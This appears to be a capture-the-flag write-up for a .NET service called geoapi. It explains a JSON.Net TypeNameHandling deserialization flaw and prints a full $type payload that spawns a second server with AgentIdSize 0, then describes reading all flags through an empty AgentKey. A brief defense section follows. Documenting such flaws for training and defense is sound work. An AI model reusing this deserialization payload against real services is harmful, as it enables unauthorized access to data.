 # geoapi

This service is simple .net core http server.

### Attack

This service uses JSON.Net with `TypeNameHandling = true` for HTTP content deserialization. Both DTO constructors contain optional argument `ILoggerProveder loggerProvieder` therefore it is possible to construct any type that implements ILoggerProvider. The only suitable type is `HTTPServer`, so you can run a new instance of the service by constructing HTTPServer with setting `AgentIdSize = 0`.

```{  
   "agentName":"lol",
   "loggerProvider":{  
      "$type":"geoapi.HTTP.HttpServer, geoapi",
      "settings":{  
         "$type":"geoapi.Utils.Settings, geoapi",
         "ParallelismDegree":500,
         "Port":9007,
         "MongoDBConnectionString":"mongodb://localhost:27017",
         "AgentsCollectionName":"AgentsCollection",
         "MongoDBName":"AgentsDB",
         "TObjectsCollectionName":"TObjecstCollection",
         "MaxContentLength":0,
         "AgentIdSize":0,
         "ObjectIdSize":12,
         "SearchLimit":100,
         "TTL":"01:30:00"
      }
   }
}
```

After that you can register the user with an empty token and read all flags using `GetTerrainObjectsHandler` like this `http://host:port/objects?AgentKey=`.

### Defense
You can rebuild service with disabled `TypeNameHandling` or fliter `$type` field
